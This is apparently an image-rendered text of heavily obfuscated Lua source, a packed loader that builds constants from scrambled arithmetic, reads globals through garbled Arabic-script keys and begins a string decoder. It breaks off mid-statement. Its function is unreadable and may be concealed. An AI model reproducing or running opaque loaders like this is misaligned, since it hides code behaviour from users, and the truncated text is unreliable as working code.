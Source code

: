 ,nil,nil;(function() _msec=(function(e,l,d)local R=l["ددڪ؃ضجڝجټككڝ؃ڝد"];local H=d[e[(0x5c2-784)]][e["آ؃ڪدآڪقآقڝؠسسحئضح"]];local g=(-0x7f+131)/(70-((24272/0x94)+-96))local C=(((-135+-0x32)+66)+121)-(-32+0x21)local p=d[e[(39248/0xdf)]][e["آټزننج؃ض؃زكؠ؃زسحس"]];local j=(0x6f+(-0x4e+(30-0x3e)))+(0x32/25)local N=d[e[(-72+0x284)]][e["زڝك؃قكؠزنجزڝج"]]local o=(-0x30+50)-(((0xc4-122)+-70)/0x4)local B=(38+((0x2f94/(-75+0x116))+-94))local t=(((408+((-0x1abe+-90)/0xcc))-0xf9)+-0x79)local S=(58-(-0x2f+((0x4dddb1/(34780/0x94))/0xd7)))local P=((((-102-(0x89-125))+0x56)+0x62)-66)local s=(0x104/(-72+(174+(17-0x36))))local v=(0x70-(0x6324/(0x120+(-0x1f-22))))local f=(0x25-(0x5f+((1-(0x4f5/27))-0xf)))local _=(0x64+(-0x72-(-1734/(0xd9+-115))))local O=(-53+(((0xfd56b-518891)/48)/193))local D=(24/(((-0x3b+-648)/0x7)+109))local k=(((0x2a6c-(0x2b56-5610))/0x30)+-0x6d)local w=((298-(0x2630/(0x7e-74)))-0x6b)local U=((-0x2e+(0x984/(0x123-175)))+27)local i=((440+((-221+0x4b)+26))/0xa0)local r=(-18+((-0x474/(0x7f+-107))+77))local b=((-0x22+((-13572/0x75)+398))/0x7c)local c=(372/(((0x18ad20-808642)/63)/69))local x=((32164/(-102+((33869-0x4235)/90)))/0xbb)local W=e[(292464/0xd8)];local K=d[e[(20768/0x76)]][e["قنآ؃كزسؠس؃"]];local V=d[(function(e)return type(e):sub(1,1)..'\101\116'end)('سنڝ؃حڝقټ')..'\109\101'..('\116\97'or'ڪسئآئآكد')..e[(1193-0x26d)]];local L=d[e[(-60+0x278)]][e["نآڝحننؠنټڪؠنقدآ"]];local y=(0x7b+-121)-(60+(-52-(-0x30+54)))local m=(((-0x36+(-0x79+15079))/0x8a)-106)-(76-0x4a)local G=d[e[(0x11d+(-99-0xa))]][e["ؠنآكآجسددز"]];local a=function(d,e)return d..e end local A=(-29+0x21)*(704/(20064/(0x14c-218)))local Q=d[e["جكحندآضضڝسئقك"]];local n=(-0x13+21)*((646-(0x340-464))-0x96)local Y=(2065-0x411)*((181-(333-0xd6))+-0x3c)local z=(0x1ee0/((346+-0x71)+-81))local u=((0x1cf-(418+-0x7b))/84)*(0x19-23)local M=d[e["دئكؠجئڪآټ؃جس"]]or d[e[(0x1dbec/213)]][e["دئكؠجئڪآټ؃جس"]];local h=(36864/((67145-0x8339)/233))local e=d[e["نزن؃ڪض؃زڝضضكؠآڝ"]];local J=(function(a)local r,l=2,0x10 local d={j={},v={}}local n=-o local e=l+C while true do d[a:sub(e,(function()e=r+e return e-C end)())]=(function()n=n+o return n end)()if n==(A-o)then n=""l=y break end end local n=#a while
e